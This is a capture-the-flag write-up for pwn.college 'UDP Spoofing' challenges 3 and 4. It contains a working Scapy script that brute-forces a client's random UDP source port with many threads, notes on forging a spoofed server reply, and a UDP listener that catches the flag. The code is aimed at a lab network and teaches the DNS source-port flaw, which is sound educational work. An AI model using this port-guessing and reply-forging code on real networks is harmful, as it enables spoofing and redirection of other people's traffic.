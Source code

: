 # Problem Statement
 ## UDP Spoofing 3
Of course, the previous spoofing worked because you know the source port that the client was using, and were thus able to forge the server's response. This was, in fact, at the core of a very famous vulnerability in the Domain Name System that facilitates the translation of host names like https://pwn.college to the appropriate IP addresses. The vulnerability allowed attackers to forge responses from DNS servers and redirect victims to IP addresses of their choice!

The fix for that vulnerability was to randomize the source port that DNS requests go out from. Likewise, this challenge no longer binds the source port to 31338. Can you still force the response?

HINT: The source port is only set once per socket, whether at bind time or at the first sendto. What do you do when there's a fixed number that you don't know?

 ## UDP Spoofing 4
Let's up the game a bit: this challenge checks that the response came from the right server! Luckily, UDP is a lot easier to forge than TCP. In TCP, forging a server response requires you to know sequence numbers and a whole bunch of other inconvenient-to-guess information. Not so with UDP!

Go ahead and craft the server response with scapy, as you've done with TCP, and let's see that flag fly!

## Observations
 - In order to narrow down the bruteforce probe, I looked up conventions for private ports and Linux seems to use (32768-60999). The solution
   adheres to this at least, but I ended up just going for all non-well-known ports (>1024). This is done in batches so that the system isn't overloaded with threads
 - Starting to bruteforce from the end of the list might be more efficient in the above scenario. 60 batches take only a few minutes anyway.
 - It isn't strictly necessary to have a listener running. The program output will tell you which port was discovered (along with a bunch of false positives if you use `sr1` instead of `send`, but the packet summary printed gives you unequivocally the source port).
   - ```
     # Output excerpt. It is port 43454 that we want as it is the source port in the packet summary
     IP / UDP 10.0.0.2:43454 > 10.0.0.1:31337 / Raw
     IP / UDP 10.0.0.2:43454 > 10.0.0.1:31337 / Raw
     IP / UDP 10.0.0.2:43454 > 10.0.0.1:31337 / Raw
     IP / UDP 10.0.0.2:43454 > 10.0.0.1:31337 / Raw
     Port 43539
     Port 43478
     Port 43521
     Port 43527
     Port 43520
     ```
 - If you don't want to have a listener in the background, using scapy to send the flag exfiltration message with the function `sr1` once you figure out the port should return you the flag.
   In that case, remove the scapy import line at the top of the port prober code and you can run the code directly from scapy.

# Solution
## Listener  (not strictly necessary, just makes it easier)
- `python udp_listener.py > udp_listener.log &`
```
from socket import *

s = socket(AF_INET, SOCK_DGRAM)
s.bind(("0.0.0.0", 31337))
print("If you read this, I'm listening...")
msg, addr = s.recvfrom(4096)
print(f"Received from {addr}: {msg.decode()}")

```

## Port prober
- `python udp_prober.py`
- for challenge 4, I didn't like the output with false positives so the `probe_port` code became just the definition of pkt and `send` instead of `sr1`
  - Note: Add appropriate `src` value to the IP layer for challenge 4 to spoof the UDP packet.
```
import threading
from scapy.all import *

# This is just to split the ~60k ports to probe into chunks to limit threads to ~1k at a time.
def split_range(start, end, num_chunks):
    step = (end - start) // num_chunks
    ranges = []

    for i in range(num_chunks):
        chunk_start = start + i * step
        chunk_end = start + (i + 1) * step if i < num_chunks - 1 else end
        ranges.append((chunk_start, chunk_end))

    return ranges


def probe_port(ip, port, results):
    if port == 31337: # not saving much by excluding this one port, but we already know it isn't this one
        results[port] = False
        return

    pkt = IP(dst=ip)/UDP(sport=31337, dport=port)/Raw(load=f"FLAG:10.0.0.1:31337") # any port will do in our payload, just match the listener if any or leave this to use sr1
    reply = sr1(pkt, timeout=1)
    if reply is None:
        results[port] = False
    elif reply.haslayer(ICMP) and reply.getlayer(ICMP).type == 3 and reply.getlayer(ICMP).code == 3:
        results[port] = False
    else:
        print(reply)
        results[port] = True # Note: if running a listener, this will generate a bunch of false positives.

    ip = "10.0.0.2"
    
    start_port = 1024 # could optimize this probably starting  from at least 30000
    end_port = 65536

    for chunk in split_range(start_port, end_port, 60): # whatever chunk size is chosen, try to keep port ranges below 1k
        results = {}
        threads = []
        print(f"Processing: {chunk}")

        for port in range(chunk[0], chunk[1]):
            t = threading.Thread(target=probe_port, args=(ip, port, results))
            threads.append(t)
            t.start()

        for t in threads:
            t.join()

        for port, isopen in results.items():
            if isopen:
                print(f"Port {port}")
    ```


